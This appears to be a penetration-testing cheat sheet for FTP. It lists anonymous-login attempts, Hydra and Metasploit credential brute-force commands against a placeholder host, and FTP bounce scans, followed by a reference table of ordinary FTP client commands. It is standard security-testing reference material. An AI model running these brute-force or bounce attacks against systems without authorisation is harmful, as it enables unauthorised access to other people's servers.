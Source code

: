 ## ⚔️ Attack Vectors

### Anonymous Access
```bash
ftp X.X.X.X
Username: anonymous
Password: anything@example.com
```

### Credential Attacks
```bash
# Hydra brute force
hydra -L users.txt -P passes.txt ftp://X.X.X.X

# Metasploit
use auxiliary/scanner/ftp/ftp_login
set RHOSTS X.X.X.X
run
```

### FTP Bounce Attacks
```bash
# Nmap bounce scan
nmap -b <FTP_server>:<port> <target_network>

# Manual bounce
ftp> PORT 127,0,0,1,0,80
ftp> LIST
```

## 📝 FTP Commands Reference

### Essential Commands
| Command | Description | Example | Notes |
|---------|-------------|---------|--------|
| `lcd` | Change local directory | `lcd /path/to/dir` | Client-side only |
| `cd` | Change remote directory | `cd /public` | Server-side |
| `ls` | List files | `ls -la` | Supports flags |
| `get` | Download file | `get file.txt` | Binary/ASCII modes |
| `put` | Upload file | `put file.txt` | Check permissions |
| `mget` | Multiple downloads | `mget *.txt` | Wildcards supported |
| `mput` | Multiple uploads | `mput *.txt` | Wildcards supported |
| `binary` | Set binary mode | `binary` | For non-text files |
| `ascii` | Set ASCII mode | `ascii` | For text files |
| `passive` | Toggle passive mode | `passive` | Firewall friendly |
